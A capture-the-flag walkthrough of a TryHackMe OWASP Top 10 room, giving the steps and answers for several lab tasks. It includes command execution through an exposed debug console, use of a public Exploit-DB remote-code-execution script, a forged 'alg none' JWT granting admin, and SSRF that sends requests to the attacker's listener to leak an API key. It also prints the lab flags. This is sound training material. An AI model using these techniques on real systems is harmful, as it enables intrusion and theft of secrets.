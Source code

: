 # [Task 11] 4. Insecure Design
## Reset Password
Choose the question of `What's your favourite colour?` <br>
```
green
```
## New Password
![](./screenshots/01.png) <br>
```
VXdN29LygflFsJ
```
## Log In with New Password
![](./screenshots/02.png) <br>

## Flag
Move `flag.txt` to the `private` folder, and open the file to get the flag. <br>
![](./screenshots/03.png) <br>

# [Task 12] 5. Security Misconfiguration
Firstly, Navigate to `<YOUR_MACHINE_IP>:86/console`. <br>
Then, execute the code: <br>
```python3
import os; print(os.popen("ls -l").read())
```
![](./screenshots/04.png) <br>

To read `app.py`, execute this code: <br>
```python3
import os; print(os.popen("cat app.py").read())
```
![](./screenshots/05.png) <br>

# [Task 15] Vulnerable and Outdated Components - Lab

Go to [Online Book Store 1.0 - Unauthenticated Remote Code Execution ](https://www.exploit-db.com/exploits/47887?source=post_page-----73d5248fc8e4--------------------------------), and download `47887.py`. <br>

![](./screenshots/06.png) <br>

Execute `47887.py`. <br>
![](./screenshots/07.png) <br>

## Get the Flag
![](./screenshots/08.png) <br>

```
THM{But_1ts_n0t_my_f4ult!}
```

# [Task 20] Data Integrity Failures
## JWT Cookie Value
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.
eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNzIzODQwOTI0fQ
```

### Header
```json
# Input Base64
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9

# Output String
{"typ":"JWT","alg":"HS256"}
```

### Payload
```json
# Input Base64
eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNzIzODQwOTI0fQ

# Output String
{"username":"guest","exp":1723840924}
```

## Admin Header
```json
# Input String
{"typ":"JWT","alg":"none"}

# Output Base64
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=
```

## Admin Payload

```json
# Input String
{"username":"admin","exp":1723840924}

# Output Base64
eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzIzODQwOTI0fQ==
```

## Whole JWT
Don't forget the dot (`.`) following by the payload. I failed to get the flag because of the missing dot. <br>
```json
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzIzODQwOTI0fQ==.
```

# [Task 22] 10. Server-Side Request Forgery (SSRF)


## Q1. Explore the website. What is the only host allowed to access the admin area?
![](./screenshots/14.png) <br>

```
localhost
```
##  Q2. Check the "Download Resume" button. Where does the server parameter point to?
![](./screenshots/13.png) <br>
```
secure-file-storage.com
```
## Q3. Using SSRF, make the application send the request to your AttackBox instead of the secure file storage. Are there any API keys in the intercepted request?
![](./screenshots/17.png) <br>
![](./screenshots/16.png) <br>

```json
# What I found fomr the button
http://10.10.10.48:8087/download?server=secure-file-storage.com:8087&id=75482342

# Edited URL
http://192.168.3.130:8087/download?server=http://<YOUR_THM_IP>:8000&id=75482342

```
Remember to listen to `8000` <br>
![](./screenshots/15.png) <br>
```bash
nc -nvlp 8000
```
### Answer
```json
THM{Hello_Im_just_an_API_key}
```

## Q4. Going the Extra Mile: There's a way to use SSRF to gain access to the site's admin area. Can you find it? 

**Note:** You won't need this flag to progress in the room. You are expected to do some research in order to achieve your goal. <br>

```
http://<YOUR_THM_IP>:8087/download?server=http://localhost:8087/admin%23&id=75482342
```
![](./screenshots/18.png) <br>
![](./screenshots/19.png) <br>

---

# Reference
- [TryHackMe OWASP Top 10–2021 Walkthrough](https://medium.com/@corybantic/tryhackme-owasp-top-10-2021-writeup-159ccfadb4d7) by CoryBantic NSP Security, 2023.


